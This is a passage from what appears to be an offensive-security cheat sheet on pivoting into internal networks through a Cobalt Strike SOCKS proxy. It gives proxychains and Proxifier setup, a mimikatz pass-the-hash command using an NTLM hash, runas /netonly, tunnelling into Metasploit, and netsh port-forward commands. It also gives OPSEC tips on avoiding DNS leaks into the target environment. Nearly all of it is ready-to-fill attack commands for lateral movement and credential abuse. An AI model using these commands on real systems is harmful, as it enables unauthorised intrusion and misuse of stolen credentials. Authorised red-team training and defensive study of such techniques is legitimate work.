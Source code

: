 * OPSEC: This binds 1080 on all interfaces and since there is no authentication available on SOCKS4, this port can technically be used by anyone

```
socks <PORT>
```

**Proxychains**

* For linux

```
sudo vim /etc/proxychains.conf
proxychains <COMMAND>
```

**Proxifier**

* [https://www.proxifier.com/](https://www.proxifier.com/)
* For windows
* Open Proxifier, go to Profile > Proxy Servers and Add a new proxy entry, which will point at the IP address and Port of your Cobalt Strike SOCKS proxy.
* Next, go to Profile > Proxification Rules. This is where you can add rules that tell Proxifier when and where to proxy specific applications. Multiple applications can be added to the same rule, but in this example, I'm creating a single rule for adexplorer64.exe (part of the Sysinternals Suite).
* Target hosts fill in the target internal network range with the action `proxy socks <TARGET>`
* NOTE: You will also need to add a static host entry in your C:\Windows\System32\drivers\etc\hosts file: . You can enable DNS lookups through Proxifier, but that will cause DNS leaks from your computer into the target environment.

**Proxychains netonly or overpass the hash**

```
runas /netonly /user:<DOMAIN>\<USER> "C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc"
sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<HASH> /run:"C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc"
```

**Metasploit**

* In Cobalt Strike, go to View > Proxy Pivots, highlight the existing SOCKS proxy and click the Tunnel button.
* Paste string in msfconsole
* Stop with `socks stop`

#### Manual port forwards

**Remote port forward netsh**

* Requires administrator privs

```
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=<PORT> connectaddress=<TARGET IP> connectport=<TARGET PORT> protocol=tcp
```

**List forwards netsh**

```
netsh interface portproxy show v4tov4
```
